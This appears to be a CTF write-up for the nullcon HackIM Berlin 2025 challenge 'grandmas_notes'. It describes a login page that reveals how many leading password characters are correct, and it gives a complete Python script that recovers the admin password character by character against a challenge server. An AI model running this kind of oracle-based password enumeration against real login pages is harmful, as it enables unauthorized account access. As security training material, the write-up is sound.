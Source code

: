 ## [nullcon](https://nullcon.net) HackIM CTF Berlin 2025 Writeup

## grandmas_notes

When a wrong password is entered, the service reveals the number of correct leading characters with this message:

`Invalid password, but you got X characters correct!`

This makes the login page vulnerable to incremental password enumeration so we can guess the password character-by-character and stop when the number of correct characters increases.

```python
import requests
from bs4 import BeautifulSoup

BASE = "http://52.59.124.14:5015/"
s = requests.Session()

def get_flash(html):
    soup = BeautifulSoup(html, "html.parser")
    box = soup.select_one(".flash")
    return box.get_text(strip=True) if box else ""

def try_prefix(user, prefix):
    r = s.post(BASE + "login.php", data={"username": user, "password": prefix}, allow_redirects=True)
    return get_flash(r.text)

alphabet = "abcdefghijklmnopqrstuvwxyz0123456789_{}-ABCDEFGHIJKLMNOPQRSTUVWXYZ"

user = "admin"
prefix = ""
last_correct = 0

while True:
    progressed = False
    for ch in alphabet:
        test = prefix + ch
        msg = try_prefix(user, test)
        if "got " in msg and "characters correct" in msg:
            N = int(msg.split("got ")[1].split(" ")[0])
            if N > last_correct:
                prefix = test
                last_correct = N
                print(f"[+] Found next char: {ch} → {prefix}")
                progressed = True
                break
    if not progressed:
        print(f"[!] Done. Password recovered: {prefix}")
        break

r = s.post(BASE + "login.php", data={"username": user, "password": prefix}, allow_redirects=True)
dash = s.get(BASE + "dashboard.php").text
print("[*] Dashboard page saved to dashboard.html")
open("dashboard.html","w",encoding="utf-8").write(dash)
```
